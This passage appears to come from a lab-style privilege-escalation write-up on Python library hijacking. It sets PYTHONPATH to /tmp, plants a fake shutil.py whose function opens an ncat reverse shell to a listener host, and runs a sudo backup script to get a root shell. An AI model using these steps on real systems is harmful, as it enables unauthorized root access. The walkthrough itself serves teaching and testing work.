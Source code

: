 ```shell
user@pwn:~$ echo $PYTHONPATH

user@pwn:~$ 
```

If I set it and run look at `sys.path` again, my addition is added:

```shell
user@pwn:~$ export PYTHONPATH=/tmp
user@pwn:~$ python3 -c "import sys; print('\n'.join(sys.path))"

/tmp
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

This means that Python will first try to look in the current script directory, then `/tmp`, then the Python installs to try to load `shutil`. Now we could look for writable directories.

```shell
find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'
```

Generally, we can use `/tmp` or `/dev/shm` or any other directory that we have write permissions:

```shell
vi /tmp/shutil.py
```

Set a reverse shell:

```python
import os

def make_archive(a, b, c):
	os.system("ncat 10.10.10.14 1234 -e /bin/bash")
```

Execute the `backup.py` which will import our `shutil.py` file:

```shell
sudo PYTHONPATH=/tmp python3 /opt/scripts/backup.py
```

Receive a connection as root:

```shell
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.10.14] from (UNKNOWN) [192.168.146.131] 47812
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```
